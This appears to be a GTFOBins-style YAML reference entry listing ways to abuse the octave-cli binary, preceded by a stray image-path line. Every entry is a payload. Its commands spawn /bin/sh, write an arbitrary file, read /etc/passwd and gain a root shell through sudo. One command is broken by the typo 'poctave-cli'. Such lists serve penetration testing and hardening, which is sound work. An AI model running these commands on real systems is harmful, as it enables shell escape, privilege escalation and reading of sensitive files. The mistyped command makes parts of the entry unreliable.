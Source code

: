 description: The payloads are compatible with GUI.
functions:
  shell:
    - code: octave-cli --eval "system('/bin/sh')"
  file-write:
    - code: poctave-cli --eval 'filename = "file_to_write"; fid = fopen (filename, "w"); fputs (fid, "DATA"); fclose (fid);'
  file-read:
    - code: octave-cli --eval 'fid = fopen ("/etc/passwd"); while(!feof(fid)); txt = fgetl(fid), txt; endwhile; fclose (fid);'
  sudo:
    - code: sudo octave-cli --eval "system('/bin/sh')"

